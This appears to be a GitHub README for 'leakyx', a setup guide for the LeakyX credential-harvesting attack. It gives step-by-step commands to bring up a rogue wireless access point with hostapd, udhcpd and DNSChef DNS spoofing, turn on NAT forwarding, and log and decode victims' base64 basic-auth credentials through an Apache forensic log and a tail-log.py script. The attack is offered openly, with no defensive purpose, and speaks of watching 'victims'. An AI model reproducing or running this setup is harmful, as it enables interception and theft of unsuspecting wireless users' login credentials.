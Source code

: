# leakyx

## Setup system for leakyx exploit
Reference: [LeakyX](https://litwinsaid.blogspot.ca/2017/08/leakyx-vulnerability-that-apple-and.html)
### Requirements:
 A host with an internet connection and a wireless card that support AP mode
 Note: If connecting to a public wireless network for internet connectivity make sure there are two wireless NICs on the system
 The following software packages
-Apache2 with mod_SSL and mod_log_forensic
-udhcpd
-DNSChef
-hostapd
## Begin
Update system and install required software
```sudo apt update && sudo apt upgrade
sudo apt-get install aircrack-ng byobu vim git hostapd udhcpd apache2
```
Enable apache2 mods
```
a2enmod ssl
a2enmod mod_log_forensic
```
edit /etc/apache2/apache2.conf to add the following line: 
```
ForensicLog ${APACHE_LOG_DIR}/forensic.log
```
restart apache2 service to make enabled mdoudles active
```service apache2 restart```

## Start the fun
bring up monitor interface
```
airmon-ng check kill && airmon-ng start wlan0
```
configure ip address on the monitor interface
```ip addr add 10.0.0.1/24 dev wlan0mon```

 begin IP forwarding and NAT  
 Be sure to replace eth0 and wlan0mon with your interfaces  eth0 is the internet connection wlan0mon is the AP interface
```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0mon -j ACCEPT 
```


Edit the files to update any IP addresses or interfaces to match your environment


###Start up the necessary services.  
I run these in byobu with a 4-pane layout to have eyes on victim transistion from the AP connections, dhcp assignment, and then the dnschef proxy/cooking data.
```
byobu
press ctrl-F2 for horizontal split,
ctrl-F1 for vertical split, and 
ctrl-F2 for another horizontal split
```

Commands to bring up services: 
```
hostapd hostapd.conf
udhcpd -f dhcpd.conf
dnschef --file dnschef.ini -i 10.0.0.1
```

Begin monitoring the forensic file
```
tail -f /var/log/apache2/forensic.log
```
or you can use the tail-log.py script to parse the forensic log and decode the base64 encoded basic:auth attempts
```
python tail-log.py
```
